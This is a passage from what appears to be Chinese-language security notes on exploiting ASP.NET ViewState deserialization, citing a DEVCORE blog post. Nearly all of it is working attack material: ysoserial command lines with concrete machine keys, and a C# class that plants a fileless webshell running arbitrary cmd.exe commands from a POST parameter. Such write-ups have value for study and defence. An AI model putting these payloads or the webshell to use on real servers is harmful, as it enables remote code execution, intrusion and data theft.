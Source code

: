 ```powershell
-p ViewState 
-g TypeConfuseDelegate 
-c "echo 123 > e:\test.txt" 
--generator=CA0B0334
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
--isencrypted
```

### 2.4 Webshell

参考：[玩轉 ASP.NET VIEWSTATE 反序列化攻擊、建立無檔案後門 (DEVCORE 戴夫寇爾)](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)

首先需要 DisableTypeCheck：

```powershell
.\ysoserial.exe 
-p ViewState 
-g ActivitySurrogateDisableTypeCheck 
-c "ignore" 
--path="/default.aspx" 
--apppath="/" 
--validationalg="SHA1" 
--validationkey="F2D27DF0348E9A3EAD6AC66330C31F821394D4CD1A5E139EEE85EA9D9F2A963E55EC87572F699FB834292CC9E37AD56B6B26AA379106CBA5E9AA544C688F3E92" 
--decryptionalg="AES" 
--decryptionkey="F6D5A5C8DDEC57481610829F58D6C95BDAC5FA21082F3FA9CB5A36DCEAACBEDB"
```

然后在 ysoserial 文件夹下撰写一个用于执行任意代码的类（假定为 ExploitClass.cs）：

```cs
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Form["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```
